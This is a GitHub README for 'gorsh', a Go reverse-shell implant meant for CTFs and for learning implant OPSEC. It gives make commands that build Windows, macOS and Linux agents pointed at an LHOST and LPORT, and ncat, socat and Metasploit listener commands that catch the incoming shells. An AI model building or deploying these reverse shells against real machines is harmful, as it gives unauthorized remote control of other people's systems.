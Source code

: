 # gorsh

[go]lang [r]everse [sh]ell

![](https://i.imgur.com/x51XH6K.png)
![](https://i.imgur.com/pvCmHYa.png)

Originally forked from - [sysdream/hershell](https://github.com/sysdream/hershell)

## Motivation

Learn go.  
Make a throwaway reverse shell for things like CTFs.  
Learn about host-based OPSEC considerations when writing an implant.

## Fork Changes

See the [Changelog](./docs/CHANGELOG.md)

## Project Notes

__NOTICE__: Requires go 1.11.

Also, the zStandard compression library in this project uses `cgo` and thus you'll need the mingw
compiler on Linux if you want to compile the Windows agents. It also only supports GOARCH=amd64, so
32-bit agents use a less efficient gzip algo.

## Getting started

Check out the [official documentation](https://golang.org/doc/install) for an intro to developing
with Go and setting up your Golang environment (with the `$GOPATH` environment variable).

Make sure to read the Makefile. It gives you a good idea of what's going on.

Because this project uses `cgo` and tries to cross-compile for linux/windows/macos, you'll need a
windows compiler. I've only tried this on Debian, but since go1.11, you just need mingw installed.

```sh
sudo apt install gcc-mingw-w64 binutils-mingw-w64-x86-64 tmux socat
go get github.com/audibleblink/gorsh/...
GOOS=windows go get github.com/audibleblink/gorsh/...
cd $GOPATH/src/github.com/audibleblink/gorsh
```

While it is often required during cross-compilation to set variables like $CC, $CXX, $AS, $LD, ...
it is not required as go1.11 linux/amd64 picks up on the presence of the toolchain it needs.

### Usage

First, generate your certs:

```bash
$ make depends
```

For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.

Generate with:

```bash
$ make {windows,macos,linux}{32,64} LHOST=example.com LPORT=443
#or
$ make all LHOST=example.com LPOST=443
```

[Troubleshooting](./docs/TROUBLESHOOTING.md)


#### Catching the shell

The `make listen` target kicks off a tmux session and creates new windows with each new connection.
Feed it a port number as LPORT.

```sh
make listen LPORT=8080

# once a client connects
tmux attach -t GORSH
```

Shells can also be caught without tmux using:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

Once executed, you will be provided with the tool's shell.
Type `help` to show what commands are supported.

## Credits

* Initial Work - Ronan Kervella `<r.kervella -at- sysdream -dot- com>`
* Modifications - f47h3r - [@f47h3r_b0](https://twitter.com/f47h3r_b0)
* mzpqnxow for figuring out my x-compilation and dependancy problems and troubleshooting guide
